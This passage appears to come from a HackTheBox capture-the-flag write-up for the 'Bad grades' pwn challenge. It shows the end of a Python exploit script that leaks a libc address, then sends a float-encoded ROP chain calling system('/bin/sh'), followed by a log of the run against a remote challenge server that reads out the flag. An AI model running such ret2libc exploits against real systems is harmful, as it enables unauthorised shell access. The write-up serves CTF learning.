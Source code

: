             hex2float(exe.plt.puts),
            hex2float(main_addr)]
        )

        rl()
        leak = fixleak(rl()[:-1])
        libc.address = leak - libc.sym.puts
        info(f'Leak: {hex(leak)}')
        info(f'Libc base: {hex(libc.address)}')
        sleep(0.5)

        # Get shell
        sla(b'> ', b'2')
        sla(b': ', b'39')
        send_floats(
            [0.0] * 33 + [
            '+',
            5.0,
            hex2float(ret),
            hex2float(pop_rdi),
            hex2float(next(libc.search(b'/bin/sh'))),
            hex2float(libc.sym.system)]
        )

        interactive()

    if __name__ == '__main__':
        exploit()
    ```

    ```bash
    alter ^ Sol in ~/HTB/chal/pwn/Bad grades
    $ ./xpl.py REMOTE 94.237.54.116 40708
    [+] Opening connection to 94.237.54.116 on port 40708: Done
    [*] Leak: 0x7febcdd4aaa0
    [*] Libc base: 0x7febcdcca000
    [*] Switching to interactive mode
    Your new average is: 9320600893962.79
    $ cat flag.txt
    HTB{c4n4ry_1s_4fr41d_0f_s1gn3d_numb3r5}
    ```
